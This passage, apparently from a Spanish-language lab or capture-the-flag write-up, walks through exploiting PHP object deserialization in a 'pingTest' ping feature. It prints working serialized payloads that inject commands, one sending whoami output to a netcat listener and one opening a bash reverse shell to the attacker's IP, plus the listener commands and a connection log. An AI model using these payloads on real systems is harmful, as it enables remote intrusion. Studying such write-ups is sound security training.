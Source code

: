 ```bash
php pwned.php;echo
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A50%3A%22%3Bbash+-c+%27%2Fusr%2Fbin%2Fwhoami+%7C+nc+192.168.2.133+4444%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```

Inicio un listener con netcat por el puerto 4444 para recibir la conexión

```bash
nc -lvnp 4444
listening on [any] 4444 ...
```

En la petición de ping interceptada con BurpSuite remplazo obj con mi objeto serializado y le doy a Send

![imagen](https://github.com/user-attachments/assets/a5ec1a61-b11c-45d4-a011-96775788ba16)

Recibo el comando ejecutado /usr/bin/whoami, viendo que ganaré acceso al sistema como el usuario apache

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.2.133] from (UNKNOWN) [192.168.2.140] 50824
apache
```

Modifico el código PHP malicioso en vez ejecutar whoami introduzco una reverse shell hacia mi dirección IP de atacante, de resto ejecuto y serializo de nuevo el objeto malicioso

```php
<?php 
class pingTest {
	public $ipAddress = ";bash -c 'bash -i >& /dev/tcp/192.168.2.133/4444 0>&1'";
	public $isValid = True;
	public $output = "";
}

echo urlencode(serialize(new pingTest));
?>
```

```bash
php pwned.php;echo
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A54%3A%22%3Bbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.2.133%2F4444+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```

Inicio un listener con netcat por el puerto 4444 para recibir la reverse shell

```bash
nc -lvnp 4444
listening on [any] 4444 ...
```
